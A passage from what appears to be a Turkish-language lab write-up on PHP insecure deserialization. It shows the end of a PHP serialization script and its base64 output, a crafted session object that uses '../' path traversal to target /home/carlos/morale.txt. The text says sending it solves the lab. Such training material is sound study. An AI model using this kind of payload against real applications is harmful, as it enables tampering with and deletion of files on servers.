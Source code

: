 ```php
        serialize($payload->username)
    )
    );

?>
```

Bu kod sayesinde elde ettiğimiz çıktıyı uygulamamızda kullanabiliriz. 

```php
Output:
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTg6InRlbXBsYXRlX2ZpbGVfcGF0aCI7czo4OiJ0ZXN0LnR4dCI7czoxNDoibG9ja19maWxlX3BhdGgiO3M6Nzk6Ii4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30%3D
```

Bu şekilde yeni session objemizi gönderince lab’ı başarıyla çözmüş oluyoruz. 

![Untitled](0x0D%20e7c75cda4af14d9f8c7d57729ec14f3a/Untitled%2013.png)

# Lab: Developing a custom gadget chain for PHP deserialization

![Untitled](0x0D%20e7c75cda4af14d9f8c7d57729ec14f3a/Untitled%2014.png)
